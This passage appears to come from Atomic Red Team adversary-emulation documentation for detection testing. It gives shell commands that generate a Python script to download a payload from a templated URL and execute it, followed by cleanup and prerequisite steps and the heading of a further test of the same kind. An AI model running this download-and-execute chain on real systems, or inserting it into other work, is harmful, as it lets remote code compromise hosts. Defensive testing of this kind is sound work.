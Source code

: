 
#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python #{python_script_name}
```

#### Cleanup Commands:
```sh
rm #{python_script_name} #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Requires Python
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```




<br/>
<br/>

## Atomic Test #3 - Execute Python via Python executables (Linux)
Create Python file (.py) then compile to binary (.pyc) that downloads an external malicious script then executes locally using the supplied executor and arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 0b44d79b-570a-4b27-a31f-3bf2156e5eaa




